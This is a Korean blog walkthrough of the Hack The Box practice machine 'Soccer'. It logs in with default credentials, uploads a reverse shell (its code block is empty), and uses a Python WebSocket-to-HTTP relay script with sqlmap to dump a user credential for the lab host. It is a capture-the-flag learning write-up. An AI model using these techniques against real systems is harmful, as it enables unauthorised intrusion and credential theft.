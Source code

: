 ```yaml
---
date: '2023-03-03'
before : '2023-03-02'
after : '2023-03-04'
title: 'Hack The Box Machine : Soccer'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 Soccer의 풀이'
thumbnail: './C_Sec.jpg'
---
```


### 0. 오늘의 문제 소개

![projectManage](../contentImages/Soccer.png)

2023년 4월 기준 HTB Active Easy로 레이팅 되어있는 머신 중 하나인 Soccer의 풀이를 해 보았다. 하지만 말이 Easy지 레이팅 지표를 보면 Medium에 가까워서 그렇게 쉽진 않았다. 한 두시간정도 걸린 것 같다.


### 1. Information Gathering


일단 nmap 스캔부터 돌려보자.

![nmap](../contentImages/soccer/1.png)

특이점은 없지만 맨 밑에 처음 보는 희안한 포트가 (9091) 열려있었는데, 이건 나중에 Privilege Escalation 할 때 필요한 거였다. 일단은 http가 열려있으니 /etc/hosts에 추가하고 접속해보자.

![soccerhtb](../contentImages/soccer/2.png)

보기에 별 다를 것 없는 사이트이다. 그럼 정석대로 Directory Fuzzing을 해서 서브다이렉토리가 존재하나 확인해보자.

![fuzzer](../contentImages/soccer/3.png)

예상하긴 했지만 tiny라는 희안한 서브다이렉토리가 존재한다. 바로 들어가보자.

### 2. Gaining Initial Foothold

![tiny](../contentImages/soccer/4.png)

이런 로그인 창이 뜨는데, 밑에 Copyright를 눌러보니 이 플러그인 제작자의 홈페이지가 뜬다.

![copyright](../contentImages/soccer/5.png)

여길 이곳저곳 탐색하다보니, 이 플러그인의 default 유저이름/암호가 admin:admin@123이란 것을 알 수 있었다. 실제 Pentest에선 모르지만, 보통 CTF에선 이런 정보가 보이면 그 크레덴셜이 유용한 경우가 많은 것 같다. 역시나 로그인이 된다. 로그인을 하니

![uploadPage](../contentImages/soccer/6.png)

이런 파일 업로드용 홈페이지가 뜬다. 아마 100프로로 File Upload관련 취약점이 존재할 것이다. 저기 tiny 폴더로 들어가서 reverse shell 업로드를 진행해보자. reverse shell은 다음과 같은 코드를 사용했다.

```

```
![uploading](../contentImages/soccer/7.png)

업로드를 하고, nc -lvnp로 내 서버를 켠 다음 파일이 업로드된 경로로 접속해보자. 경로가 /tiny/내_파일_이름.php라고 친절하게 알려준다.

![revshell](../contentImages/soccer/8.png)

성공적으로 쉘이 나왔다. 하지만 이게 끝은 아니다. 아직 유저 권한도 얻지 못한 듯 하다. 시스템을 열심히 탐색해보자... 

### 3. User Privilege

! 시스템을 탐색하다보니 (그냥 파일/경로 열어보기 노가다..) soc-player.soccer.htb라는 vhost가 존재하는 듯 하다. 접속해보니

![soc-player](../contentImages/soccer/9.png)

이런 페이지가 뜬다. 회원가입이 가능하니 얼른 가입하고 로그인을 해보자.

![logged-on](../contentImages/soccer/10.png)

이렇게 뭔가를 입력할 수 있는 화면이 뜨는데..? 이 부분이 좀 어려웠다. 페이지 소스를 확인해보니

![socket](../contentImages/soccer/11.png)

Web Socket으로 통신이 이루어진다는걸 확인할 수 있다. 저런 확인 시스템이 있는 걸 보니 일단 SQL Injection 관련인 것 같긴 한데... 구글링을 해보니 Web Socket Blind SQL Injection이 존재한다는걸 알 수 있었다. 


https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html


구글링 없이 해킹은 절대 무리란걸 다시한번 상기하며, 해당 블로그에 나와있는 파이썬 소켓 코드를 (middleware식으로 동작한다)내 컴퓨터에 작성한다. 물론 우리 상황에 맞게 살짝 코드를 바꾸긴 해야하지만 큰 틀에선 비슷하다.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
 ws = create_connection(ws_server)
 # If the server returns a response on connect, use below line 
 #resp = ws.recv()
 
 # For our case, format the payload in JSON
 message = unquote(payload).replace('"','\'') # JSON으로 만든다.
 data = '{"id":"%s"}' % message # 이 부분은 살짝 바뀐다.

 ws.send(data)
 resp = ws.recv()
 ws.close()

 if resp:
  return resp
 else:
  return ''

def middleware_server(host_port,content_type="text/plain"):

 class CustomHandler(SimpleHTTPRequestHandler):
  def do_GET(self) -> None:
   self.send_response(200)
   try:
    payload = urlparse(self.path).query.split('=',1)[1]
   except IndexError:
    payload = False
    
   if payload:
    content = send_ws(payload)
   else:
    content = 'No parameters specified!'

   self.send_header("Content-type", content_type)
   self.end_headers()
   self.wfile.write(content.encode())
   return

 class _TCPServer(TCPServer):
  allow_reuse_address = True

 httpd = _TCPServer(host_port, CustomHandler)
 httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
 middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
 pass
```

이렇게 하고 sqlmap을 실행시킨다.

```
sqlmap -u “http://localhost:8081/?id=1" -p “id”
```

![sqlmap](../contentImages/soccer/12.png)

실행시켜보면 위와 같이 sql취약점을 발견할 수 있고, 그걸 바탕으로 db를 탐색하면 유저의 credential을 얻을 수 있다 :


1324 | player@player.htb | player   | PlayerOftheMatch2022


이제 ssl로 로그인을 해보고 ls를 때려보면...!

![user_exploit](../contentImages/soccer/13.png)

유저로 로그인을 할 수 있고, user.txt flag를 얻을 수 있다.

### 4. 마치며

사실 글이 이렇게 길어질 줄 몰랐다. 이거 절대 easy 아니다. 내 첫 Hack The Box pwn으로 이상한 걸 고른 것 같다. 다른 box들은 이렇게 어렵지 않던데... 여기까지가 유저 권한 취득이고, 루트 권한 취득은 좀 더 괴랄(?) 해진다. 


Root Privilege도 막 따 놓은 참이긴 하지만 내일 마저 스크린샷 찍고 정리해서 올려야지 (절대 귀찮은게 아니다.)

## Source

- Hack The Box 2023
- Me!


